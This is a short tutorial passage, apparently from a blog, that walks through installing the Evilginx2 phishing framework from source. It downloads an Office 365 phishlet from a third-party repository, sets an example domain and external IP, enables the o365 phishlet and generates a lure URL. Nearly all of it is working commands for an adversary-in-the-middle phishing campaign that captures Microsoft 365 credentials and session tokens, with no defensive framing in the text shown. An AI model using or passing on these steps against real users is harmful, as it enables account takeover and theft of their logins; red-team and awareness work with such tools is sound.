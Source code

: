 ```bash
# Clone and compile from source
git clone https://github.com/kgretzky/evilginx2.git 
cd evilginx2 
make

# Create folders
sudo mkdir -p /usr/share/evilginx/phishlets
sudo mkdir -p /usr/share/evilginx/redirectors

# Copy content
sudo cp ./phishlets/* /usr/share/evilginx/phishlets/ -r
sudo cp ./redirectors/* /usr/share/evilginx/redirectors/ -r

# Set evilginx as executable and copy it to /us/local/bin
sudo chmod 700 ./build/evilginx
sudo cp ./build/evilginx /usr/local/bin/

# Download o365 phishlet from BakkerJan's repository
sudo wget https://raw.githubusercontent.com/BakkerJan/evilginx2/master/phishlets/o365.yaml -P /usr/share/evilginx/phishlets/
```

To start Evilginx, run the following command:
```
sudo evilginx
```

Upon the first use of Evilginx, you’ll encounter the following errors:
```
[war] server domain not set! type: config domain <domain>
and 
[war] server external ip not set! type: config ipv4 external <external_ipv4_address>
```

To resolve this, configure the domain and IPv4 address. Replace `<domain>` with your actual domain and `<external_ipv4_address>` with your Evilginx VM’s IP address like this:
```bash
config domain leikkikentta.com
config ipv4 external 40.91.217.241 
```

To configure the phishlet hostname and enable it, run the commands `phishlets hostname o365 YourDomain` and `phishlets enable o365` like this:
```
phishlets hostname o365 leikkikentta.com
phishlets enable o365
```

Next, create a lure for the o365 phishlet using this command:
```
lures create o365
```

Finally, retrieve the lure URL by running:
```
lures get-url 0
```
